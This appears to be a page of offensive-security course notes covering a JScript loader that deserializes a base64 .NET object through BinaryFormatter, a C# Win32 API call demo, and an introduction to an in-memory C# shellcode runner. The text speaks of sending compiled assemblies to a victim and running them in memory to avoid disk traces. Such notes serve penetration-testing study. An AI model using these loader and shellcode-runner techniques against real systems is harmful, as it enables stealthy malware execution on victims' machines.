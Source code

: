 ```js
try {
	setversion();
	var stm = base64ToStream(serialized_obj);
	var fmt = new ActiveXObject('System.Runtime.Serialization.Formatters.Binary.BinaryFormatter');
	var al = new ActiveXObject('System.Collections.ArrayList');
	var d = fmt.Deserialize_2(stm);
	al.Add(undefined);
	var o = d.DynamicInvoke(al.ToArray()).CreateInstance(entry_class);
	
} catch (e) {
    debug(e.message);
}
```

## 4.2.3 Win32 APIs call from C`#`

When calling Win32 APIs from PowerShell, use the straightforward Add-Type method and the more complicated reflection technique. 

When dealing with C#, compiling the assembly before sending it to the victim and executing it in memory, will avoid writing C# source code and compiled assembly files temporarily to disk during execution.

demo how to import and call Win32 APIs from C# without having to use reflection technique.

```cs
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics; // To use the DllImport statement and invoke the Win32 APIs
using System.Runtime.InteropServices; // To use the DllImport statement and invoke the Win32 APIs

namespace ConsoleApp1
{ 
 class Program
	{ 
		[DllImport("user32.dll", CharSet = CharSet.Auto)] // Import and link Win32 APIs
		public static extern int MessageBox(IntPtr hWnd, String text, String caption, int options);
		
		static void Main(string[] args)
		{ 
			MessageBox(IntPtr.Zero, "Win32 APIs call from C#", "This is my caption", 0);
		} 
	} 
}
```

## 4.2.4 C`#` Shellcode Runner

Have the basic framework, the next is reuse the shellcode runner technique from both **VBA** and **PowerShell** and combine VirtualAlloc, CreateThread, and WaitForSingleObject to execute shellcode in memory.
